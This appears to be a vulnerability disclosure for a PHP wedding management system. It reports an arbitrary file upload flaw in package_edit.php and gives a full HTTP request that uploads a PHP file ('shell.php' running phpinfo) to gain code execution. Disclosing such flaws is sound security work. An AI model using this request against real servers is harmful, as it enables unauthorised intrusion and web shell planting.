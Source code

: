 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/package_edit.php?id=1

Loophole location：The editing function of "Services" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "package_edit.php" file.

Click "Edit" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/package_edit.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/package_edit.php?id=1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------28704520716321
Content-Length: 534

-----------------------------28704520716321
Content-Disposition: form-data; name="wedding_type"

2
-----------------------------28704520716321
Content-Disposition: form-data; name="price"

0.00
-----------------------------28704520716321
Content-Disposition: form-data; name="preview_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------28704520716321
Content-Disposition: form-data; name="submit"


-----------------------------28704520716321--
```

The files will be uploaded to this directory \admin\upload\categories\

![image](https://user-images.githubusercontent.com/54017627/167979415-1d1142a3-23b8-4fc0-9211-a0c7d415341a.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167979449-ffb31988-3400-4685-900d-a331da29b879.png)


